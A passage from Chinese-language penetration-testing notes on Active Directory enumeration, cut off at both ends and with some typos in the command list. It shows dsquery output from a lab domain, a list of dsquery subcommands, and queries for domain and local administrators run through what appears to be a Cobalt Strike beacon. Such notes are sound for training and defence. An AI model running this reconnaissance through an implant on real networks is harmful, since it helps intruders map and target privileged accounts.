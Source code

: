   - ```cmd
    C:\Users\Administrator>dsquery user
    "CN=Administrator,CN=Users,DC=hack,DC=com"
    "CN=Guest,CN=Users,DC=hack,DC=com"
    "CN=DefaultAccount,CN=Users,DC=hack,DC=com"
    "CN=krbtgt,CN=Users,DC=hack,DC=com"
    "CN=Jason,CN=Users,DC=hack,DC=com"
    "CN=zhangsan,CN=Users,DC=hack,DC=com"
    "CN=caiwu,OU=财务,DC=hack,DC=com"
    ```

  - 常用的`dsquery命令`

  - ```cmd
    dsquery computer ‐查找目录中的计算机
    dsquery contact ‐查找目录中的职系人
    dsquery subnet ‐目录中的子网
    dsquery group ‐查找目录中的组
    dsquery ou ‐查找目录中的组织单位
    dsquery site ‐最找目录中的站点
    dsquery server ‐查找目录中的ADDC/LDs实例
    asquery user ‐查找目录中的用户
    dsquery quota ‐查找目录中的配额
    dsquery partition ‐查找目录中的分区
    ```

- 查询域管理用户

  - `net group "domain admins" /domain`

  - ```cmd
    beacon> shell net group "domain admins" /domain
    [*] Tasked beacon to run: net group "domain admins" /domain
    [+] host called home, sent: 64 bytes
    [+] received output:
    这项请求将在域 hack.com 的域控制器处理。
    
    组名     Domain Admins
    注释     指定的域管理员
    
    成员
    
    -------------------------------------------------------------------------------
    Administrator            
    命令成功完成
    ```

- 查看本地管理员组用户

  - `net localgroup administrators`

  - ```cmd
    beacon> shell net localgroup administrators
    [*] Tasked beacon to run: net localgroup administrators
    [+] host called home, sent: 60 bytes
    [+] received output:
    别名     administrators
    注释     管理员对计算机/域有不受限制的完全访问权
    